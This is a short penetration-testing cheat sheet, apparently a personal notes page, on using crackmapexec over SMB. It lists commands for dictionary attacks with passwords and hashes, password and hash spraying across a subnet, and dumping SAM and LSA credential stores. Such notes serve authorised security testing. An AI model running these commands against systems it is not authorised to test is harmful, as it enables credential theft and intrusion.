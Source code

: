 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

```bash - kali
sudo apt install crackmapexec
```

```bash - kali
crackmapexec --help
```

#### [error] Is a directory
When you get the "Is a directory" error, just cd ../ and run again as shown below, so your target's IP folder is not there.  

![[Pasted image 20220107163056.png|1000]]

#### Dictionary attack (Hashes)
```bash - kali
crackmapexec smb $TARGET -u $HOSTNAME/$USERS_FILE -H $HOSTNAME/$HASHES_FILE
```

#### Dictionary attack (Passwords)
```bash - kali
crackmapexec smb $TARGET -u $USER -p /usr/share/seclists/Passwords/Common-Credentials/best1050.txt
```

#### User dictionary attack with single password
```bash - kali
crackmapexec smb $TARGET -u $USERS_FILE -p '$PASSWORD'
```

#### Spray username and hash
```bash - kali
crackmapexec smb x.x.x.0/24 -u $USER -d $DOMAIN -H $HASH
```

#### Spray username and password
```bash - kali
crackmapexec smb x.x.x.0/24 -u $USER -d $DOMAIN -p $PASSWORD
```

#### sam file dump with crackmapexec
```bash - kali
crackmapexec smb x.x.x.0/24 -u $USER -d $DOMAIN -p $PASSWORD --sam
```

#### lsa file dump with crackmapexec
```bash - kali
crackmapexec smb x.x.x.0/24 -u $USER -d $DOMAIN -p $PASSWORD --lsa
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
